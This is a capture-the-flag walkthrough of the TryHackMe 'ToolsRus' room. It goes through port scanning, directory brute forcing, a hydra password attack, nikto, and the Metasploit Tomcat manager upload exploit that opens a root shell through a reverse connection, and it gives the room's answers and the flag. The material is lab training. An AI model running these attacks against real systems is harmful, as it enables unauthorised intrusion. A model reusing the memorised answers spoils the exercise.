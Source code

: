 # ToolsRus Wlakthrough
### Link
- https://tryhackme.com/room/toolsrus
------------------------
### Nmap
- sudo nmap -sC -sV -p- [IP]
- Open port :   
    - 80
    - 1234 --> Apache Tomcat/Coyote JSP engine 1.1
    - 8009 --> Apache Jserv (Protocol v1.3)

- What other port that serves a webs service is open on the machine?
**Answers**: 1234
- What is the server version (run the scan against port 80)?
**Answer**: Apache/2.4.18
- What version of Apache-Coyote is this service using?
**Answer**: 1.1
------------------------
### Dirbuster
- sudo gobuster dir -u http://[IP]:[Port] -w [path]/wordlists/dirbuster/directory-list-2.3-medium.txt
- What directory can you find, that begins with a "g"?
**Answers**: /guidelines
- Whose name can you find from this directory?
**Answers**: bob
- What directory has basic authentication?
**Answer**: /protected
------------------------
### hydra
- sudo hydra -l bob -P  [path]wordlists/rockyou.txt -f 10.10.248.249 http-get /protected/
- What is bob's password to the protected part of the website?
**Answers**: bubbles
- Going to the service running on that port, what is the name and version of the software?
**Answer**: Apache Tomcat/7.0.88
------------------------
### nikto
- Log to manager with bob credentials
- sudo nikto -h http://10.10.23.90:1234/manager/html/ -id "bob:bubbles"
- How many documentation files did Nikto identify?
**Answer**: 5
------------------------
### Metasploit
- Search exploit for tomcat
    - search type:exploit name:tomcat
- Select exploit/multi/http/tomcat_mgr_upload
    - use exploit/multi/http/tomcat_mgr_upload
- Check settings we need to define
    - show options
- As we can see we have : HttpPasswrod / HttpUsername / RHOSTS / RPORT / LHOSTS
    - set HttpPassword bubbles
    - set HttpUsername bob
    - set RHOSTS [IP]
    - set RPORT 1234
    - set LHOSTS [local IP machine]
        - Let's double check if we indicate all information
- Execute the payload
    - execution
- When the payload is active, type these commands
    - shell
    - id
- What user did you get a shell as?
**Answer**: root
- What text is in the file /root/flag.txt
    - cd root
    - ls
    - cat flag.txt
**Answer**: ff1fc4a81affcc7688cf89ae7dc6e0e1